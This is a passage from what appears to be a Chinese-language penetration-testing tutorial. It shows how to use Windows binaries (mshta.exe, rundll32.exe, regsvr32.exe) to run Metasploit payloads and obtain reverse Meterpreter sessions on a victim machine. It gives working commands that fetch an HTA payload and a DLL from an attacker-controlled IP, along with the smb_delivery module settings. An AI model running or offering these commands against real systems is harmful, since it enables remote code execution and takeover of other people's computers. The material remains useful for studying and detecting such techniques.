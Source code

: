 ```bash
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```



![img](https://i2.wp.com/3.bp.blogspot.com/-WojuVBITUBA/XERxFcLMnDI/AAAAAAAAcIc/VIRbJgR_0KMAonf3QaFGRwgJ9zF2xFgjQCLcBGAs/s1600/2.png?w=687&ssl=1)

您可以观察到，我们有受害者的计时器会话，如下所示：

![img](https://i2.wp.com/2.bp.blogspot.com/-LxXWG6Wp9tA/XERxHkuPN8I/AAAAAAAAcI8/-Cs5h6XR0jg1nqOG_qg7NH0LcJo1wJ2lwCLcBGAs/s1600/3.png?w=687&ssl=1)

## 二、RUNDLL32.EXE

Rundll32.exe与Windows操作系统相关联，允许您调用从**DLL**导出的函数（16位或32位）并将其存储在适当的内存库中。

**通过SMB交付Metasploit启动Rundll32攻击**

Metasploit还包含“SMB Delivery”模块，可生成恶意dll文件。该模块通过SMB服务器提供有效负载，并提供检索和执行生成的有效负载的命令。目前支持DLL和Powershell。

```bash
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```



现在**通过受害计算机上的rundll32.exe运行恶意代码（易受RCE攻击）以获取计时器会话**。

![img](https://i1.wp.com/4.bp.blogspot.com/-9RiWJSgc9kc/XERxKTU-01I/AAAAAAAAcJo/8zVtmo3pB_oHEiS2jutBghqlEEMFGZvpwCLcBGAs/s1600/9.png?w=687&ssl=1)

一旦您在rundll32.exe的帮助下在远程计算机上执行dll文件，您将在本地计算机（Kali Linux）上获得反向连接。

```bash
rundll3.exe \\192.168.1.109\vabFG\test.dll,0
```



![img](https://i0.wp.com/1.bp.blogspot.com/-DoAZZYKv1GY/XERxDGuR4DI/AAAAAAAAcIE/ajlIITUcoZw9M4H6AtJz34kvNUo9YYFfQCLcBGAs/s1600/10.png?w=687&ssl=1)

您可以观察到，我们有受害者的计时器会话，如下所示：

![img](https://i0.wp.com/4.bp.blogspot.com/-3C7oXVJUYzk/XERxDXzYtCI/AAAAAAAAcII/V1mhJdqQq7IUHP0uWAoYd46qmWk-2uIyQCLcBGAs/s1600/11.png?w=687&ssl=1)

## 三、Regsvr32.exe

Regsvr32是一个命令行实用程序，用于注册和取消注册OLE控件，例如Windows注册表中的**DLL**和ActiveX控件。Regsvr32.exe安装在Windows XP及更高版本的Windows的％systemroot％\ System32文件夹中。

RegSvr32.exe具有以下命令行选项：

> 语法：Regsvr32 [/ s] [/ u] [/ n] [/ i [：cmdline]] dllname
>
> / u - 取消注册server 
> / i - 调用DllInstall传递一个可选的[cmdline]; 当它与/ u一起使用时，它调用dll uninstall 
> / n - 不要调用DllRegisterServer; 此选项必须与/ i 
> / s一起使用 - 无声; 不显示消息框
